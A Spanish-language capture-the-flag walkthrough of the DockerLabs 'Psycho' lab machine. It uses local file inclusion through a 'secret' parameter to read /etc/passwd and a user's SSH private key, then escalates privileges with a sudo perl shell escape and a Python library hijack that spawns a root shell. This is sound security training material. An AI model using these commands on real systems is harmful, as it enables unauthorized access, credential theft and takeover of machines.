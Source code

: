 # Máquina Psycho

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/MSkgWDKJ#UHmAFBkvOpAc9fPIDocrVDLYz0VY6BolhLz87f3tSNM)

![imagen](https://github.com/user-attachments/assets/f05097a8-d26a-47fa-9b73-6ce97ba6f908)

- **Nombre de la Máquina:** Psycho
- **Sistema Operativo:** Linux
- **Dificultad:** Fácil
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - LFI (Local File Inclusion)
  - Exposición de claves privadas
  - Permisos sudo mal configurados
  - Python Library Hijacking
- **Escalada de Privilegios:**
  - Desde `vaxei` a `luisillo` mediante `perl` con sudo.
  - Desde `luisillo` a `root` explotando un **Python Library Hijacking** en el script `paw.py`.

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con Nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/d0f124ed-df43-40b0-a176-44d197c0fce5)

El escaneo muestra que los puertos 22 y 80 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutando en estos puertos.

```bash
sudo nmap -p 22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/be4bf4e1-487c-4fcf-880e-b8284d95b7c3)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver qué servicios corren en el puerto HTTP.

![imagen](https://github.com/user-attachments/assets/72b23bfe-508c-4d27-8f4c-ac72bcea4d92)

En la página principal encontramos una web básica.

![imagen](https://github.com/user-attachments/assets/39e4dc72-5e81-4800-b0e1-2419c9eae51d)

La web fue creada por un usuario llamado **TLuisillo_o**, según aparece en la página. Los botones no son funcionales y al final del archivo encontramos un mensaje de error.

![imagen](https://github.com/user-attachments/assets/b01220af-42ee-4151-a62a-45fb81b4b98f)

Realizamos un escaneo de directorios en busca de algún directorio interesante, pero no encontramos nada relevante salvo que el index de la página es `index.php`. En el directorio `/assets`, solo está el archivo jpg del fondo de la web.

![imagen](https://github.com/user-attachments/assets/cafe9b63-0ccf-475f-9d02-81dbecde177b)

Observamos que hay un error al final de la web, lo cual podría deberse a que `index.php` está llamando incorrectamente a un parámetro. Realizamos fuzzing para encontrar ese posible parámetro.

```bash
wfuzz -c -u "http://172.17.0.2/index.php?FUZZ=" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --hw 169
```

![imagen](https://github.com/user-attachments/assets/7f8f98c6-bb03-40a6-a3b7-8429b9cc4ab5)

Encontramos el parámetro **secret** y probamos si podemos explotar un LFI para leer archivos de la máquina víctima.

```url
http://172.17.0.2/index.php?secret=/etc/passwd
```

![imagen](https://github.com/user-attachments/assets/322758ee-77c9-41c8-bc51-920da2246960)

Efectivamente, podemos leer archivos de la máquina víctima. En el archivo `/etc/passwd` encontramos dos usuarios:
- vaxei
- luisillo

Probamos a realizar un ataque de fuerza bruta sobre el servicio SSH, pero no logramos obtener las contraseñas de los usuarios. Sin embargo, tras buscar más archivos, encontramos el archivo `id_rsa` del usuario **vaxei**, lo que nos permitirá acceder vía SSH sin necesidad de contraseña.

```url
http://172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa
```

![imagen](https://github.com/user-attachments/assets/0cf85193-02ab-4d1e-9ff1-d55aec6d13c5)

Copiamos la clave privada y la guardamos en un archivo de texto plano. Luego, cambiamos los permisos y nos conectamos vía SSH con el usuario `vaxei`.

```bash
chmod 700 id_rsa
ssh vaxei@172.17.0.2 -i id_rsa
```

![imagen](https://github.com/user-attachments/assets/cedd3ada-fc2c-4056-8825-d5b342986bc6)

## Escalada de privilegios a luisillo
Lo primero que hacemos es ejecutar un `sudo -l` para verificar si tenemos algún permiso especial, y encontramos que podemos ejecutar el comando `perl` como `luisillo`.

![imagen](https://github.com/user-attachments/assets/addb6d5b-5786-4cff-a21d-c4f564129c4a)

Utilizando el siguiente comando, ejecutamos una shell como el usuario `luisillo`.

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

![imagen](https://github.com/user-attachments/assets/a1782421-39b3-4e85-812b-54894dbdb436)

## Escalada de privilegios a root
Nuevamente, ejecutamos un `sudo -l` para verificar si tenemos algún permiso adicional, y descubrimos que podemos ejecutar el script `/opt/paw.py` como root usando Python 3.

![imagen](https://github.com/user-attachments/assets/b1014099-4fc3-4c9d-ae61-7748ef4999cb)

Observamos que el script `paw.py` está intentando importar la librería `subprocess`, pero encontramos un error que indica que el archivo `echo Hello!` no se encuentra.

```bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

Podemos aprovechar este error para realizar un ataque de **Python Library Hijacking**. Creamos un archivo llamado `subprocess.py` en el directorio actual y añadimos el siguiente código para lanzar una shell con privilegios de root.

```bash
import os
os.system("bash -p")
```

Finalmente, ejecutamos el script `paw.py` nuevamente como root, lo que nos otorga una shell privilegiada.

```bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![imagen](https://github.com/user-attachments/assets/e758cef3-8811-4da0-9b2c-fafe966885cc)

